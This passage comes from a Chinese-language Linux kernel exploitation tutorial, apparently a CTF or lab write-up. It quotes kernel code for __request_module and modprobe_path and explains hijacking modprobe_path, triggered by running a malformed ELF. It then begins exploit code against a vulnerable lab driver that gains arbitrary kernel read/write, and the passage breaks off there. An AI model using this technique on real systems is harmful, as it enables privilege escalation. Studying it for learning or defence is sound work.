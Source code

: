     char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
    if (!argv)
        goto out;

    module_name = kstrdup(module_name, GFP_KERNEL);
    if (!module_name)
        goto free_argv;

    argv[0] = modprobe_path;
    argv[1] = "-q";
    argv[2] = "--";
    argv[3] = module_name;    /* check free_modprobe_argv() */
    argv[4] = NULL;

    info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
                     NULL, free_modprobe_argv, NULL);
    if (!info)
        goto free_module_name;

    return call_usermodehelper_exec(info, wait | UMH_KILLABLE);

free_module_name:
    kfree(module_name);
free_argv:
    kfree(argv);
out:
    return -ENOMEM;
`}`
</code></pre>
`modprobe_path`定义于`/v4.6-rc1/source/kernel/kmod.c#L61`
<pre><code class="lang-c hljs cpp">/*
    modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
</code></pre>
于是我们只需要劫持`modprobe_path`然后执行`__request_module`即可，但是，此函数除了我们劫持函数指针来主动调用以外，我们还可以使用**运行一个错误格式的elf文件**的方式来触发`__request_module`。
我们可以使用如下`Exploit`：
<pre><code class="lang-c hljs cpp">void exploit()`{`

    int fd = open("/dev/vulnerable_device",0);
    if (fd &lt; 0)`{`
        puts("open fail!");
        return 0;
    `}`

    struct init_args i_args;
    struct realloc_args r_args;
    i_args.size=0x100;
    ioctl(fd, 0x8008FE07, &amp;i_args);

    r_args.grow=0;
    r_args.size=0x100+1;
    ioctl(fd, 0x8008FE08,&amp;r_args);
    puts("[+] We can read and write any memory! [+]");
